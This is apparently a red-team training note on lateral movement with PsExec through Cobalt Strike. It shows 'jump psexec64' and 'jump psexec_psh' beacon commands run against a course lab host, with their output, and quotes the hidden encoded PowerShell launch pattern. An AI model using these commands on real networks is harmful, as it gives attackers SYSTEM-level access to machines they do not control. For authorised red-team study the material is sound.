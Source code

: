 
PsExec is a Windows telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software.


## 🖊️ via Cobalt Strike

The `psexec` / `psexec64` commands work by uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.  Beacons executed this way run as SYSTEM.

For example:

```
beacon> jump psexec64 web.dev.cyberbotic.io smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web via Service Control Manager (\\web\ADMIN$\768870c.exe)

Started service 768870c on web.dev.cyberbotic.io
[+] established link to child beacon: 10.10.122.30
```

![[psexec.png]]


#### psexec_psh

Another variation to this is `psexec_psh`, this one doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).  The pattern it uses by default is `%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand ...`.

Example:

```
beacon> jump psexec_psh web smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web via Service Control Manager (PSH)

Started service bd119dd on web
[+] established link to child beacon: 10.10.122.30
```




### ⚠ Opsec




### Properties
---
📆 created   {{14-02-2024}} 13:44
🏷️ tags: #redteam #crto #Windows 

---

